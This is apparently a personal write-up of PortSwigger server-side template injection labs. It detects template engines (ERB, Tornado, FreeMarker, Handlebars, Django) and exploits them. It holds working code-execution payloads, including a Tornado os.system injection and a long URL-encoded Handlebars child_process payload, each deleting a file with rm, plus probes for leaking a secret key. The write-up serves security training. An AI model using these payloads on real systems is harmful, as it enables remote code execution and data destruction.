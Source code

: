 # Portswigger Writeups

## Lab 1: Basic SSTI

When viewing the requests sent upon viewing a product, this is what I see:

![](../../.gitbook/assets/portswigger-ssti-writeup-image.png)

Further testing reveals that this `message` parameter is printed on the screen:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-1.png)

Using `<%= 7/0 %>` causes a 500 error. This means that the template is processing information insecurely. Using this, I can execute `system("rm /home/carlos/morale.txt")`.

## Lab 2: Basic SSTI with Code Context

This lab provides me with a 'preferred name' feature:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-2.png)

When the request is viewed, I saw that it uses `user.first_name`.

![](../../.gitbook/assets/portswigger-ssti-writeup-image-3.png)

It looks like this is dynamically retrived. This lab uses a Tornado template, and since it uses `user.first_name`, the input might be processed like this:

```
{{user.first_name}}
```

Since the above is probably not sanitised, I can do enter `}}{{6*6`. This might cause the expressions evaluated to be:

```
{{user.first_name}}{{6*6}} (the last 2 brackets are automatically there)
```

The method above works, and the '36' is reflected when I leave a comment on a post. Using this method, one can execute Python using the following format:

```
{% import os %}{{os.system('rm /home/carlos/morale.txt')
```

Afterwards, leave a comment on any post.

## Lab 3: Using Documentation

This particular lab requires us to identify the template engine used.

The lab provides us with a 'Edit template' option.

![](../../.gitbook/assets/portswigger-ssti-writeup-image-4.png)

Using this, I can attempt to identify the template used using this payload:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```
The first one is processed!

![](../../.gitbook/assets/portswigger-ssti-writeup-image-5.png)

I went to PayloadAllTheThings and tested all the frameworks of which this worked with, and found that it was FreeMarker being used:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-6.png)

There are quite a few payloads for code execution:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-7.png)

The rest of the lab is trivial.

## Lab 4: Unknown Language

Firstly, this lab uses the `message` parameter, and using `{{7*7}}` results in an error:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-8.png)

The above uses Handlebars. Hacktricks has a payload for this, which can be modified to solve the lab:

```
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27rm+/home/carlos/morale.txt%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```

## Lab 5: Information Disclosure via User-Supplied Objects

To solve this lab, steal the secret key from the website. By trying to edit the content of a post with this:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```

It causes this error:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-9.png)

So this runs on Django. Using `{% debug %}` reveals a ton of information, and actually it shows some Jinja2 debug stuff:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-10.png)

I can then use this payload to extract the key to solve the lab:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-11.png)


